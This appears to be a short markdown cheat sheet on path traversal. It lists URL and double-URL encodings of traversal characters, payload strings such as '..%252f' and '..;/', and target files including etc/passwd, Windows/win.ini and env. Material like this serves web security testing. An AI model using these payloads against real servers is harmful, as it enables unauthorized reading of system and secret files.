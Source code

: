 # Path transversal

| Char | Encoded |
| --- | --- |
| space | %20 |
| / | %2f |
| \ | %5c |
| % | %25 |
| . | %2e |
| f | %66 |
| e | %65 |

## Tricks

%252%66 -> %2f -> /

%252%65 -> %2e -> .

%252f -> %2f -> /

%252e -> %2e -> .

## Payloads

..;/

..%5c

..%2f

../

..\

..%252f

%2e%2e%252f

/

//

///

////

/////

//////

///////

////////

/////////

//////////

## Files

env

etc/passwd

Windows/win.ini


## Resources

| URL |
| --- |
| https://github.com/GrrrDog/weird_proxies |
